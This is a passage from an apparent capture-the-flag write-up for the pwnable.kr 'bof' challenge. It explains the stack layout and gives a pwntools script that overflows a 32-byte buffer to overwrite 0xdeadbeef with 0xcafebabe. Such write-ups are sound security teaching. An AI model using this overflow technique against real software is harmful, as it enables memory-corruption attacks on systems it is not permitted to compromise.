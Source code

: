 
The stack is 4 bytes "wide", so our string is split up into 8 lines, we can see the 0xdeadbeef value passed into the function at the bottom. In order to override this, we thus have to write 32 bytes to fill the buffer, 5 * 4 bytes in order to overwrite the space between the buffer and the value we want to overwrite and then four more bytes in order to overwrite 0xdeadbeef with 0xcafebabe:

So in the end, this simple "exploit" looks like this:


> from pwn import *
> 
> #p = remote('pwnable.kr', 9000)
> p = process('./bof')
> 
> payload = (32 * 'A') + ((5 * 4) * 'B') + '\xbe\xba\xfe\xca' + "\n"
> p.sendlineafter("overflow me :", payload)
> p.interactive()